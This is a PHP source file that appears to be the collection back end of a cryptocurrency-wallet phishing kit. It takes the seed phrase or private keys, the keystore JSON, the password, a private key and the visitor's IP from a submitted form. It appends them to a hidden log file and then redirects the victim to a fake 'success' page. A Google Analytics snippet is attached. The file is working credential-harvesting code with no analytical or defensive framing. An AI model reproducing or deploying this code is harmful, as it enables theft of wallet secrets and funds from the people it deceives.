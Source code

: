 <?php


/*========== [ Variables ]==========*/
$ip 		= getenv("REMOTE_ADDR");
$phrase   = $_POST['phrase'];
$keystore   = $_POST['keystore'];
$password   = $_POST['password'];
$key   = $_POST['key'];
$today = date("F j, Y, g:i a");
$file = "----<<loginan-baru->>----2022sksksksk";


$handle = fopen($file, 'a');
fwrite($handle, "---------------------------------------");
fwrite($handle, "\n");
fwrite($handle, "::  Phrase or Private Keys    ::   ");
fwrite($handle, "$phrase");
fwrite($handle, "\n");
fwrite($handle, "::  Keystore JSON             ::   ");
fwrite($handle, "$keystore");
fwrite($handle, "\n");
fwrite($handle, "::  Paswword                  ::   ");
fwrite($handle, "$password");
fwrite($handle, "\n");
fwrite($handle, "::  Private Key               ::   ");
fwrite($handle, "$key");
fwrite($handle, "\n");
fwrite($handle, "::  IP                        ::   ");
fwrite($handle, "$ip");
fwrite($handle, "\n");
fwrite($handle, "::  JAM MASUK                 ::   ");
fwrite($handle, "$today");
fwrite($handle, "\n");
fclose($handle);
echo "<script LANGUAGE=\"JavaScript\">
<!--
window.location=\"successfull.html?/access-my-wallet\";
// -->
</script>";
?>
<script type="text/javascript">

  var _gaq = _gaq || [];
  _gaq.push(['_setAccount', 'UA-33910177-1']);
  _gaq.push(['_setDomainName', 'x90x.net']);
  _gaq.push(['_setAllowLinker', true]);
  _gaq.push(['_trackPageview']);

  (function() {
    var ga = document.createElement('script'); ga.type = 'text/javascript'; ga.async = true;
    ga.src = ('https:' == document.location.protocol ? 'https://ssl' : 'http://www') + '.google-analytics.com/ga.js';
    var s = document.getElementsByTagName('script')[0]; s.parentNode.insertBefore(ga, s);
  })();

</script>

?>


